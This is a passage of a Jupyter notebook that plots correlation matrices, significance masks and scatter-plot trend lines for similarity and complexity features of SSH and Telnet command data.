

In [20]:
target_cols = ["cosine_adv","cosine_simple","jaccard","levenstein","special_chars","input_len"]
ssh_corr = ssh_df[target_cols].corr()

# Create a mask for the upper triangle
# Only want the lower part of the correlation plot
mask = np.triu(np.ones_like(ssh_corr, dtype=bool))

# Mask the upper triangle by setting it to NaN
masked_ssh_corr = ssh_corr.mask(mask)

fig, ax = plt.subplots(figsize=(6, 5))
cax = ax.matshow(masked_ssh_corr, cmap='coolwarm', vmin=-1, vmax=1)

# Add colorbar
fig.colorbar(cax)

# Set axis ticks and labels
ax.set_xticks(range(len(target_cols)))
ax.set_yticks(range(len(target_cols)))
ax.set_xticklabels(target_cols, rotation=45, ha='left')
ax.set_yticklabels(target_cols)

# Add correlation values as text
for i in range(len(ssh_corr)):
    for j in range(len(ssh_corr)):
        if i >= j: # only annotate lower triangle part
            ax.text(j, i, f"{ssh_corr.iloc[i, j]:.2f}",
                    va='center', ha='center', color='black')

# Title and layout
plt.title("Command Complexity Correlation Matrix (SSH)", pad=15)
plt.tight_layout()
plt.savefig("command_viz/7_ssh_corr.png", dpi=300)
plt.show()



In [21]:
# Compute correlation and p-value matrices
corr_matrix = pd.DataFrame(index=target_cols, columns=target_cols, dtype=float)
pval_matrix = pd.DataFrame(index=target_cols, columns=target_cols, dtype=float)

for i in target_cols:
    for j in target_cols:
        corr, pval = pearsonr(ssh_df[i], ssh_df[j])
        corr_matrix.loc[i, j] = corr
        pval_matrix.loc[i, j] = pval

# Create mask for upper triangle
mask = np.triu(np.ones_like(corr_matrix, dtype=bool))
masked_corr = corr_matrix.where(~mask)
masked_pval = pval_matrix.where(~mask)

# Plot correlation heatmap, highlighting only significant ones
fig, ax = plt.subplots(figsize=(7, 6))
cax = ax.matshow(masked_corr, cmap='coolwarm', vmin=-1, vmax=1)

# Add colorbar
fig.colorbar(cax)

# Set ticks
ax.set_xticks(range(len(target_cols)))
ax.set_yticks(range(len(target_cols)))
ax.set_xticklabels(target_cols, rotation=45, ha='left')
ax.set_yticklabels(target_cols)

# Annotate only statistically significant correlations
for i in range(len(target_cols)):
    for j in range(len(target_cols)):
        if i >= j:
            corr = corr_matrix.iloc[i, j]
            pval = pval_matrix.iloc[i, j]
            if pval < 0.05:
                ax.text(j, i, f"{corr:.2f}", ha='center', va='center', color='black')
            else:
                ax.text(j, i, "✕", ha='center', va='center', color='grey', fontsize=10)

# Title and layout
plt.title("Correlation Matrix for SSH (✕ = Not Significant)", pad=15)
plt.tight_layout()
plt.savefig("command_viz/8_ssh_corr_significance.png", dpi=300)
plt.show()



In [22]:
target_cols = ["cosine_adv","cosine_simple","jaccard","levenstein","special_chars","input_len"]
telnet_corr = telnet_df[target_cols].corr()

# Create a mask for the upper triangle
# Only want the lower part of the correlation plot
mask = np.triu(np.ones_like(telnet_corr, dtype=bool))

# Mask the upper triangle by setting it to NaN
masked_telnet_corr = telnet_corr.mask(mask)

fig, ax = plt.subplots(figsize=(6, 5))
cax = ax.matshow(masked_telnet_corr, cmap='coolwarm', vmin=-1, vmax=1)

# Add colorbar
fig.colorbar(cax)

# Set axis ticks and labels
ax.set_xticks(range(len(target_cols)))
ax.set_yticks(range(len(target_cols)))
ax.set_xticklabels(target_cols, rotation=45, ha='left')
ax.set_yticklabels(target_cols)

# Add correlation values as text
for i in range(len(telnet_corr)):
    for j in range(len(telnet_corr)):
        if i >= j: # only annotate lower triangle part
            ax.text(j, i, f"{telnet_corr.iloc[i, j]:.2f}",
                    va='center', ha='center', color='black')

# Title and layout
plt.title("Command Complexity Correlation Matrix (Telnet)", pad=15)
plt.tight_layout()
plt.savefig("command_viz/9_telnet_corr.png", dpi=300)
plt.show()



In [23]:
# Compute correlation and p-value matrices
corr_matrix = pd.DataFrame(index=target_cols, columns=target_cols, dtype=float)
pval_matrix = pd.DataFrame(index=target_cols, columns=target_cols, dtype=float)

for i in target_cols:
    for j in target_cols:
        corr, pval = pearsonr(telnet_df[i], telnet_df[j])
        corr_matrix.loc[i, j] = corr
        pval_matrix.loc[i, j] = pval

# Create mask for upper triangle
mask = np.triu(np.ones_like(corr_matrix, dtype=bool))
masked_corr = corr_matrix.where(~mask)
masked_pval = pval_matrix.where(~mask)

# Plot correlation heatmap, highlighting only significant ones
fig, ax = plt.subplots(figsize=(7, 6))
cax = ax.matshow(masked_corr, cmap='coolwarm', vmin=-1, vmax=1)

# Add colorbar
fig.colorbar(cax)

# Set ticks
ax.set_xticks(range(len(target_cols)))
ax.set_yticks(range(len(target_cols)))
ax.set_xticklabels(target_cols, rotation=45, ha='left')
ax.set_yticklabels(target_cols)

# Annotate only statistically significant correlations
for i in range(len(target_cols)):
    for j in range(len(target_cols)):
        if i >= j:
            corr = corr_matrix.iloc[i, j]
            pval = pval_matrix.iloc[i, j]
            if pval < 0.05:
                ax.text(j, i, f"{corr:.2f}", ha='center', va='center', color='black')
            else:
                ax.text(j, i, "✕", ha='center', va='center', color='grey', fontsize=10)

# Title and layout
plt.title("Correlation Matrix for Telnet (✕ = Not Significant)", pad=15)
plt.tight_layout()
plt.savefig("command_viz/10_telnet_corr_significance.png", dpi=300)
plt.show()

## Further plots from correlation analysis

Interesting combinations are:
- (SSH) levenstein & special_chars
- (SSH) jaccard & special_chars
- (Telnet) cosine_adv & special_chars
- (Telnet) cosine_simple & special_chars



In [24]:
feature_1 = 'levenstein'
feature_2 = 'jaccard'
target = 'special_chars'

# x1 = ssh_df[feature_1]
# x2 = ssh_df[feature_2]
x = ssh_df[target]
y1 = ssh_df[feature_1]
y2 = ssh_df[feature_2]

fig, axes = plt.subplots(1, 2, figsize=(12, 5), sharey=False,sharex=True)

# Plot 1
axes[0].scatter(x, y1, alpha=0.4, edgecolor='k', label="Levenstein Distance", color='blue')

# Custom trend line
slope, intercept, r_value, p_value, std_err = linregress(x, y1)
x_vals = np.linspace(x.min(),x.max(),500)
y_vals = intercept + slope * x_vals
axes[0].plot(x_vals, y_vals, color='red', linewidth=2, label='Trend')


# plot adjustments
axes[0].set_title(f'{feature_2} vs {target}')
axes[0].set_title(f'SSH - {feature_1} vs {target}')
axes[0].set_ylabel(feature_1)
axes[0].set_xlabel(target)
axes[0].grid(True)
axes[0].legend()

# Plot 2
axes[1].scatter(x, y2, alpha=0.4, edgecolor='k', label="Jaccard Similarity", color='green')

# Trend line
slope, intercept, r_value, p_value, std_err = linregress(x, y2)
x_vals = np.linspace(x.min(),x.max(),500)
y_vals = intercept + slope * x_vals
y_vals = [y if y > 0 else 0 for y in y_vals]
axes[1].plot(x_vals, y_vals, color='red', linewidth=2, label='Trend (adjusted)')

# plot adjustments
axes[1].set_title(f'SSH - {feature_2} vs {target}')
axes[1].set_ylabel(feature_2)
axes[1].set_xlabel(target)
axes[1].grid(True)
axes[1].legend()
plt.tight_layout()
plt.savefig("command_viz/11_ssh_extra.png", dpi=300)
plt.show()



In [25]:
feature_1 = 'cosine_adv'
feature_2 = 'cosine_simple'
target = 'special_chars'

x = telnet_df[target]
y1 = telnet_df[feature_1]
y2 = telnet_df[feature_2]

fig, axes = plt.subplots(1, 2, figsize=(12, 5), sharey=False,sharex=True)

# Plot 1
axes[0].scatter(x, y1, alpha=0.4, edgecolor='k', label="Cosine Similarity (semantic-based)", color='blue')

# Custom trend line
slope, intercept, r_value, p_value, std_err = linregress(x, y1)
x_vals = np.linspace(x.min(),x.max(),500)
y_vals = intercept + slope * x_vals
y_vals = [y if y > -1 else -1 for y in y_vals]
axes[0].plot(x_vals, y_vals, color='red', linewidth=2, label='Trend (adjusted)')

# plot adjustments
axes[0].set_title(f'{feature_2} vs {target}')
axes[0].set_title(f'Telnet - {feature_1} vs {target}')
axes[0].set_ylabel(feature_1)
axes[0].set_xlabel(target)
axes[0].grid(True)
axes[0].legend(loc='upper right')

# Plot 2
axes[1].scatter(x, y2, alpha=0.4, edgecolor='k', label="Cosine Similarity (char-based)", color='green')

# Custom trend line
slope, intercept, r_value, p_value, std_err = linregress(x, y2)
x_vals = np.linspace(x.min(),x.max(),500)
y_vals = intercept + slope * x_vals
y_vals = [y if y > -1 else -1 for y in y_vals]
axes[1].plot(x_vals, y_vals, color='red', linewidth=2, label='Trend (adjusted)')

# plot adjustments
axes[1].set_title(f'Telnet - {feature_2} vs {target}')
axes[1].set_ylabel(feature_2)
axes[1].set_xlabel(target)
axes[1].grid(True)
axes[1].legend(loc='upper right')

plt.tight_layout()
plt.savefig("command_viz/12_telnet_extra.png", dpi=300)
plt.show()